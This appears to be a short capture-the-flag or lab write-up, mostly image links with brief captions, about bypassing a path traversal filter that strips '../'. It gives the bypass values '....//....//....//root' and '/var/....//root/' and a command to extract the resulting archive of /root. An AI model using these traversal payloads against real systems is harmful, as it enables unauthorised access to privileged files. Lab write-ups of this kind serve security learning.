

what about simple path traversal, as it is not checking full path



run the script again 



ok so it removed ../../ what about trying ….//….//….//root



looks like it’s facing any issue, let’s use /var/….//root/



extract it using

```python
tar -xjf code_var_.._root_2025_April.tar.bz2
```

